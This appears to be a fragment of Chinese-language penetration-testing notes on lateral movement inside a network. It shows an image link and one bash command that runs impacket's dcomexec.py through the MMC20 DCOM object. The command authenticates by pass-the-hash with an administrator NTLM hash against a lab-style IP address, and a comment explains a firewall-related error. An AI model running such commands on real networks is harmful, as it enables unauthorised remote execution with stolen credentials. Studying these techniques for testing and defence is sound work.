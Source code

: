 ![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2012.png)

```bash
# dcomexec.py，一般使用MMC20，而且DCOM有时候会遇到0x800706ba的错误，一般都是被防火墙拦截
python3 dcomexec.py -object MMC20 -hashes :96b26b0744352a9d91516132c3fe485d hac k/administrator@10.10.10.137
```

